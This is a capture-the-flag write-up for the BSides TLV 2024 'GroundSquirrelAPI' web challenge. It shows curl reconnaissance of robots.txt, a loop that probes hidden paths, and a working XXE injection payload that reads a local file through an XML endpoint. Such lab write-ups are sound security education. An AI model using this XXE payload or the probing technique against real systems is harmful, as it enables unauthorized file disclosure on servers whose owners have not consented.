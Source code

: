 # GroundSquirrelAPI

 * Category: Web
 * 200 Points
 * Solved by the JCTF Team

## Description

> Our team found a development website as part of the external attack surface engagement, but the website seems unavailable for us. 
> Try to find a way in any way and manipulate the application logic to get the flag.
> 
> No DDOS allowed

## Solution

The website itself indicates that it's under maintenance:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/
<br/><Br/<br/><center><h1>Under maintenance. Please try later.</h1></center>
```

Let's check `robots.txt`:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/robots.txt
User-agent: Googlebot
Disallow: /flag.txt
Disallow: /nogooglebot/
Disallow: /testeing
Disallow: /flag
Disallow: /blog-tst
Disallow: /flag-tst
Disallow: /raltime-tst
Disallow: /images
Disallow: /uploads
Disallow: /welcome-tst
Disallow: /D0notCheck
Disallow: /backups
Disallow: /download
Disallow: /bak
Disallow: /xmlapi
User-agent: *
Sitemap: sitemap.xml
```

A quick test to see which URLs are worth following:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl -s https://bstlv24-groundsquirrelapi.chals.io/robots.txt | grep Disallow | awk '{ print $2 }' | while read -r address; do status_code=$(curl -o /dev/null -s -w "%{http_co
de}" "https://bstlv24-groundsquirrelapi.chals.io$address"); echo "Path: $address, Status Code: $status_code"; done
Path: /flag.txt, Status Code: 200
Path: /nogooglebot/, Status Code: 404
Path: /testeing, Status Code: 404
Path: /flag, Status Code: 404
Path: /blog-tst, Status Code: 404
Path: /flag-tst, Status Code: 404
Path: /raltime-tst, Status Code: 404
Path: /images, Status Code: 404
Path: /uploads, Status Code: 404
Path: /welcome-tst, Status Code: 200
Path: /D0notCheck, Status Code: 404
Path: /backups, Status Code: 404
Path: /download, Status Code: 404
Path: /bak, Status Code: 404
Path: /xmlapi, Status Code: 404
```

So we should check `flag.txt` and `/welcome-tst`. Here's `flag.txt`:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/flag.txt
Allowed only from localhost.
```

`/welcome-tst` looks like a landing page for an API service:

> Ground Squirrel API
> 
> Use our API to get updates about any blog you'd like!
> 
> (click on the button "Check Updates" for simulation)

Inspecting the sources, we find the following:

```html
      <!-- @todo: Remember to uncomment the line below for testing -->
      <!-- <a class="btn-getstarted" href="./uploadContent-tst">Check Updates</a>-->
      <a class="btn-getstarted" href="./uploadContent">Check Updates</a>
```

While `./uploadContent` is broken, `./uploadContent-tst` does seem to return some response, including:

```html
      <div class="container">
        <div class="row justify-content-center" data-aos="zoom-out">
          <div class="col-xl-7 col-lg-9 text-center">
            <h1>Ground Squirrel API Demo</h1>
            <p>Enter the payload for getting the results:<br/></p>
            <textarea cols="60" rows="15"></textarea>
            <br/><button name="updatePayload">CHECK UPDATES</button>
            <p>* Your are limit for 4 free requests.</p>
          </div>
        </div>
      </div>
```

The button itself does nothing, but when we inspect the Javascript code at `/assets/js/main.js` 
we find an interesting capability:

```javascript
/**
   * Detect Submitted Payload
   */
  const button = document.querySelector('button[name="updatePayload"]');

    // Add click event listener
    button.addEventListener('click', function(event) {
      // Handle the click event
      alert("Not Implemented.");
      /***
      // @todo: Need to fix the API into JSON instend of XML
      // Create a new XMLHttpRequest object
        var xhr = new XMLHttpRequest();
        // Configure the request
        xhr.open("POST", "./receive-xml", true);
        // Set the Content-Type header to specify that you're sending XML data
        xhr.setRequestHeader("Content-Type", "application/xml");
        // Set up a function to handle the response
        xhr.onreadystatechange = function() {
          if (xhr.readyState === XMLHttpRequest.DONE) {
            if (xhr.status === 200) {
              // Request was successful, handle the response
              console.log("Response:", xhr.responseText);
            } else {
              // Request failed
              console.error("Error:", xhr.status);
            }
          }
        };
        // Create the XML data to send
        var xmlData = '<?xml version="1.0" encoding="UTF-8"?><root><child>blogs.google.com</child></root>';
        // Send the request with the XML data
        xhr.send(xmlData);
         */
    });
```

Notice the commented-out section, which seems to be a draft for the production functionality.

We can send an XML structure and receive a response. The server might be vulnerable to 
[XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md),
let's try:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl -X POST -H "Content-Type: application/xml" --data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM "flag.txt">]><root><child>&test;</child></ro
ot>' https://bstlv24-groundsquirrelapi.chals.io/receive-xml
{"status":"ok","payload":"<root><child>BSidesTLV2024{D0ntMassWithGoph3rStuff!}</child></root>"}
```

The flag: `BSidesTLV2024{D0ntMassWithGoph3rStuff!}`